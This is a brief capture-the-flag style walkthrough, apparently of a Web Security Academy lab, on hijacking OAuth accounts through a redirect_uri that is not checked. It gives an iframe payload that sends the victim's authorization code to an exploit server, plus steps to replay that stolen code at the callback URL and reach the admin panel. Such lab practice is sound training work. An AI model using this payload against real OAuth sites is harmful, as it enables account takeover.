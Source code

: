 # OAuth account hijacking via redirect_uri

## Exploit Server
```html
<iframe src="https://oauth-ac9e1f0c1fe83ea4c0a70c8f024d00f8.web-security-academy.net/auth?client_id=ydk8wsd7pqjc6boa4g8ue&redirect_uri= https://exploit-aced1fa71f813ecec0300c1c017300ae.web-security-academy.net/&response_type=code&scope=openid%20profile%20email"></iframe>
```

## Auth FLow

Login with Creds --> Logout ---> Login (no creds asked)

![image](https://user-images.githubusercontent.com/60841283/150680077-ce46a78a-8abf-4bf3-9886-d410174a7dd3.png)

Redirect to Exploit via server

Store --> View Exploit --> Access Logs

![image](https://user-images.githubusercontent.com/60841283/150680163-7a019ad2-9d6f-4115-888f-4f0f39bd7a00.png)

Copy the code and logout from blog website.
Visit --> 
`https://ac971f5c1ff13e4bc00e0c8000a90096.web-security-academy.net/oauth-callback?code=1jnxTwxKscdCXjTs5xKCNXy9MZJIZKo60PcULWE0LcQ`

![image](https://user-images.githubusercontent.com/60841283/150680284-b26b9533-2883-4dbd-97b5-0710f0dd4759.png)

Deliver exploit to victim

![image](https://user-images.githubusercontent.com/60841283/150680340-1489d930-d0f2-4faf-9eb4-4e8d9fcbdd76.png)

Admin Panel
`https://ac971f5c1ff13e4bc00e0c8000a90096.web-security-academy.net/oauth-callback?code=qCmShidBoduqOWzcLOmnJ2VwXd9Hl327TYg227v5Fdv`

![image](https://user-images.githubusercontent.com/60841283/150680399-eac543ea-1503-47ce-9aa3-e89a5ff65c40.png)

![image](https://user-images.githubusercontent.com/60841283/150680411-a9888e2a-70f9-4faa-8e66-0d9d4ab1f7e4.png)
